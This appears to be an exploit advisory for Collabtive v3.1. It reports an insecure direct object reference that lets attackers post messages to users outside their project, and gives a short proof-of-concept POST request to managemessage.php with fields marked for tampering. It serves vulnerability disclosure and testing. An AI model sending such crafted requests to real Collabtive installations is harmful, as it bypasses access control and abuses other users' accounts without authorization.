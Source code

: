 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add message for every user even he is not in the same project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /managemessage.php?action=add&id=1(ATTACK'S PROJECT ID) HTTP/1.1
...

&privateRecipient=3(CHANGE HERE)&title=for%20user22222&=&=&=&=&=&=&=&=&=&=&=&=&text=qqquser2&milestone=0&sendto[]=3(ATTACK'S PROJECT ID)&=&=
```